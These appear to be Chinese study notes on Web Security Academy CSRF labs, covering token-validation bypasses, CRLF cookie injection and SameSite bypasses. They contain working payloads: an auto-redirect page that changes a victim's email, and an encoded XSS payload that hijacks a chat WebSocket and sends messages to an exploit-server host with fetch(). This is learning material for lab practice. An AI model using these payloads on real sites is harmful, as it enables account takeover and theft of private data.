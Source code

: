 # 令牌验证取决于请求方法的 CSRF
有的时候，csrftoken只针对post请求，我们把请求变成get，并且把无法确认实际值的参数（csrftoken）删掉，然后构造csrf poc，从而绕过csrf token


# 令牌验证取决于令牌存在的 CSRF
直接删掉csrftoken就可以，但是修改令牌值不行
，也就是不传csrftoken就能绕过

# 令牌未绑定到用户会话的 CSRF
这里主要是使用自己的csrftoken（在还没发给服务端的情况下）来修改别人的请求

# 令牌与非会话 Cookie 绑定的 CSRF（没成功）
cookie中的csrfkey与csrftoken绑定，但是csrf可以不属于会话cookie，于是我可以使用我的csrfkey和我的csrftoken去对别人进行csrf攻击，这里我们发现搜索功能会把用户输入字段插入到cookie里面
Set-Cookie: LastSearchTerm=xxx; Secure; HttpOnly
我们使用crlf攻击，设置受害者的csrfkey（setcookie响应中有两个的话后代替前，没有字段的话会合体）

# 令牌在 cookie 中重复的 CSRF
用上面的方法同时提交自己的csrftoken就行，在cookie中

# 绕过samesite=lax
`GET /my-account/change-email?email=test5%40qq.com&_method=POST HTTP/2`

# 通过客户端重定向绕过 SameSite Strict
```
通过分析外部重定向js构造payload
https://0a4c002c0334df45805067e200e50046.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test1%40qq.com%26submit=1
```
请注意，您需要包含 submit 参数和 URL 编码 & 分隔符，以避免在初始设置请求中中断 postId 参数。如果直接在 URL 中使用 & 分隔符，可能会导致解析错误，认为 postId 的值结束了，后面的内容被误认为是新的参数。
最终payload
```
<html>
<script>document.location="https://0a4c002c0334df45805067e200e50046.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test1%40qq.com%26submit=1"
;</script>
</html>
```

# SameSite 通过同级域严格绕过(csrf+xss+cswsh)
思路，发现websocket没有csrftoken，分析建立websocket的js，可劫持，由于semesite=strict，寻找xss（从响应头发现个url）
最终payload
```
<script>
document.location="https://cms-0a1c00870337a02e81195c01008f00dd.web-security-academy.net/login?username=xxxxxx%3c%73%63%72%69%70%74%3e%0a%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%31%63%30%30%38%37%30%33%33%37%61%30%32%65%38%31%31%39%35%63%30%31%30%30%38%66%30%30%64%64%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%0a%20%20%20%20%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%0a%20%20%20%20%20%20%20%20%20%20%20%20%7d%0a%0a%20%20%20%20%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%35%35%30%30%31%31%30%33%66%38%61%30%62%61%38%31%32%30%35%62%32%31%30%31%31%33%30%30%66%35%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%3f%6d%73%67%3d%22%2b%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=";
</script>
```
# SameSite Lax bypass via cookie refresh
主要是解决cookie会过期问题，因为无法保证什么时候钓钓鱼